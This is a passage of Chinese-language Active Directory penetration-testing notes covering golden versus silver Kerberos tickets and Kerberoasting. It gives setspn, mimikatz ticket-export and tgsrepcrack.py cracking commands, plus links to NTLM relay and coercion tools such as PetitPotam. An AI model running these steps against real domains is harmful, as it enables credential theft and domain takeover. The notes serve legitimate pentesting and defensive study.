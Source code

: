 黄金票据和白银票据的一些区别： Golden Ticket：伪造`TGT`，可以获取`任何Kerberos`服务权限 银票：伪造TGS，`只能访问指定的服务` 加密方式不同： Golden Ticket由`krbtgt`的hash加密 Silver Ticket由`服务账号`（通常为计算机账户）Hash加密 认证流程不同： 金票在使用的过程需要同域控通信 银票在使用的过程不需要同域控通信 相关阅读 :

- [攻击者如何使用Kerberos的银票来利用系统](https://adsecurity.org/?p=2011)
- [域渗透——Pass The Ticket](https://www.feiworks.com/wy/drops/域渗透——Pass The Ticket.pdf)

##### 域服务账号破解

与上面SPN扫描类似的原理 https://github.com/nidem/kerberoast 获取所有用作SPN的帐户

```
setspn -T PENTEST.com -Q */*
```

从Mimikatz的RAM中提取获得的门票

```
kerberos::list /export
```

用rgsrepcrack破解

```
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

##### 凭证盗窃

从搜集的密码里面找管理员的密码

##### NTLM relay

- [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [privexchange](https://github.com/dirkjanm/privexchange/)
- [Exchange2domain](https://github.com/ridter/exchange2domain)

用于主动让目标机器发起NTLM请求的方法：

- [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [PetitPotam](https://github.com/topotam/PetitPotam)

Relay LDAP:

- [CVE-2019-1040-dcpwn](https://github.com/Ridter/CVE-2019-1040-dcpwn)

Relay AD CS/PKI:

- [AD CS/PKI template exploit](https://www.bussink.net/ad-cs-exploit-via-petitpotam-from-0-to-domain-domain/)

集成几个利用的工具：

- [Relayx](https://github.com/Ridter/Relayx)

内网445端口转发：

- [PortBender](https://github.com/praetorian-inc/PortBender)

##### Kerberos委派
